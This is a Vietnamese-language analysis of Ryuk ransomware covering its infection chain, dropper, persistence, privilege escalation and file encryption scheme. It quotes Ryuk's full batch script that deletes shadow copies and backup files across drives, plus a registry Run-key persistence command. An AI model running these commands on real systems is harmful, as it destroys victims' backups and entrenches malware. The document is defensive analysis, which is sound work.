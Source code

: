 > Tên tài liệu: _Ryuk ransomware analysis_  
> Thực hiện: _Dat_  
> Cập nhật lần cuối: _25/08/2025_
## Mục lục:
1. [Attack chain](#a)
2. [Phân tích Ryuk](#b)
3. [Encryption](#c)

## Nội dung
<a name="a"></a>
### 1. Attack chain
<img width="1153" height="424" alt="image" src="https://github.com/user-attachments/assets/33a72cd1-def2-4dfd-a3de-507654079894" />
> Workflow:
- Phishing email: word document chứa macro
- Download Emotet thông qua kích hoạt macro
- Emotet download TrickBot - malware có thể system information, steal credentials, disable AV, lateral movement,...
- Connect C&C để download Ryuk để lây nhiễm và mã hóa hệ thống trong mạng.

Ryuk hoạt động 2 giai đoạn:
- Drop real Ryuk ransomware
- Injection running process, sửa đổi registry thông qua cmd
<img width="1491" height="472" alt="2" src="https://github.com/user-attachments/assets/9f485985-3fcf-400a-879c-3e78cbf988de" />

<a name="b"></a>
### 2. Phân tích Ryuk 
#### Cơ chế hoạt động
> Dropper
- Kiểm tra windows MajorVersion để quyết định vị trí drop real ransomware ryuk
  - Windows 2000 | Windows XP | Windows Server 2003: C:\Documents and Settings\Default User\
  - Windows Vista or later: C:\Users\Public\
- Random name ransomware: random 5 kí tự
- Kiểm tra kiến trúc máy tính để quyết định write payload 64 bit hay 32 bit
- Gọi ShellExecuteW() để execute
> Ransomware
- Xóa dropper
- Persistence: C:\Windows\System32\cmd.exe /C REG ADD "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "svchos" /t REG_SZ /d "C:\users\Public\BPWPc.exe" /f
- Privilege Escalation: sử dụng AdjustTokenPrivileges() để enable SeDebugPrivilege --> tác động đến các running process
- Injection chính nó vào các process (ngoại trừ các process running NT AUTHORITY)
- Sử dụng obfuscation với các import function
- Killing process sử dụng `net stop` and `taskkill`
- Delete backup: drop script tại C:\Users\Public\window.bat để xóa tất cả shadow copies, backups và tự xóa nó.
```
vssadmin Delete Shadows /all /quiet
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
del /s /f /q d:\*.VHD d:\*.bac d:\*.bak d:\*.wbcat d:\*.bkf d:\Backup*.* d:\backup*.* d:\*.set d:\*.win d:\*.dsk
del /s /f /q e:\*.VHD e:\*.bac e:\*.bak e:\*.wbcat e:\*.bkf e:\Backup*.* e:\backup*.* e:\*.set e:\*.win e:\*.dsk
del /s /f /q f:\*.VHD f:\*.bac f:\*.bak f:\*.wbcat f:\*.bkf f:\Backup*.* f:\backup*.* f:\*.set f:\*.win f:\*.dsk
del /s /f /q g:\*.VHD g:\*.bac g:\*.bak g:\*.wbcat g:\*.bkf g:\Backup*.* g:\backup*.* g:\*.set g:\*.win g:\*.dsk
del /s /f /q h:\*.VHD h:\*.bac h:\*.bak h:\*.wbcat h:\*.bkf h:\Backup*.* h:\backup*.* h:\*.set h:\*.win h:\*.dsk
del %0
```

<a name="c"></a>
### 3. Encryption
- Sử dụng multi threading: tại một thread mới cho mỗi file mã hóa
- Liệt kê file --> mỗi file mỗi thread --> mã hóa
  - Tránh các file có extensions: .dll, .exe, .ink, .hrmlog, .ini
- Tạo random key AES 256 cho mỗi thread mã hóa file
- AES key được mã hóa với RSA public key
- Ryuk write metadata gồm 274 bytes ở cuối mỗi file mã hóa, với 6 bytes đầu `HERMES`, 12 byte blob RSA information, 256 bytes encypted key
- Liệt kê network share với WNetOpenEnumW() và WNetEnumResourceA() và tiếp tục mã hóa 






